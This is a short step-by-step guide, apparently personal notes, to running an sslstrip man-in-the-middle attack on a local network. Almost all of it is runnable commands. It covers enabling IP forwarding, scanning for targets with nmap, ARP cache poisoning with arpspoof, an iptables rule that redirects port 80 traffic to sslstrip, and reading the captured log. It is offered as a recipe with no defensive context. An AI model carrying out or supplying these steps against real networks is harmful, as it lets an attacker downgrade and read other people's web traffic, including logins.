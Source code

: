 sslstrip makes it possible to intercept https traffic and view content

Launching an sslstip attack 1) Launch an ARP spoof. i) IP forwarding
echo 1 > /proc/sys/net/ipv4/ip\_forward ii) Identify the gateway and
subnet mask using netstat -nr iii) Use nmap to identify a target on the
network nmap -Rsn x.x.x.x/x iv) Start ARP cache poisoning using arpspoof
-i eth0 -t x.x.x.x -r [default\_gateway] . This will show traffic leave
the window open

2) Once the ARP cache poisoning is set up, open a new terminal to set up
   port redirects using iptables. This enables traffic to be redirected
   to sslstrip listner port.

#+BEGIN_QUOTE
  iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT
  --to-port 8080
#+END_QUOTE

3) Launch sslstrip attack.

#+BEGIN_QUOTE
  sslstrip -l 8080 To view the results of this attack open another
  terminal tail -n 50 -f sslstip.log
#+END_QUOTE
